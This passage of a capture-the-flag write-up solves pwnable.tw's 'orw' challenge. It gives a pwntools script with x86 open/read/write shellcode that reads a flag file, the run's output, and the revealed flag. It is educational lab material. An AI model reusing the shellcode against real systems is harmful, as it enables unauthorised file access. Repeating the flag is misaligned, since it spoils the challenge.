 So, I changed `mov ebx, esp` to `lea ebx, [esp +0x2]` to remove the 2 `\0` characters.

I got the shellcode in the following exploit script
```
from pwn import *

p = remote("chall.pwnable.tw", 10001)

shellcode='''

open:
push 0x0
push 0x67616c66
push 0x2f77726f
push 0x2f656d6f
push 0x682f0000
mov eax, 0x5
lea ebx, [esp+0x2]
xor ecx, ecx
xor edx, edx
int 0x80

read:
mov ebx, eax
mov eax, 0x3
mov ecx, esp
mov edx, 0x28
int 0x80

write:
mov eax, 0x4
mov ebx, 0x1
mov ecx, esp
int 0x80


'''

shellcode= asm(shellcode)
p.recvuntil(":")
p.send(shellcode)

p.interactive()
```

The fix worked! And I got my flag ｡\^‿\^｡ (By the way, `p.interactive()` is needed. Without it, the flag won't be printed.)
```
solomonbstoner@swjsUbuntu:~/Desktop$ python python\ exploit\ for\ orw.py 
[+] Opening connection to chall.pwnable.tw on port 10001: Done
[*] Switching to interactive mode
FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}
�[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to chall.pwnable.tw port 10001
```

END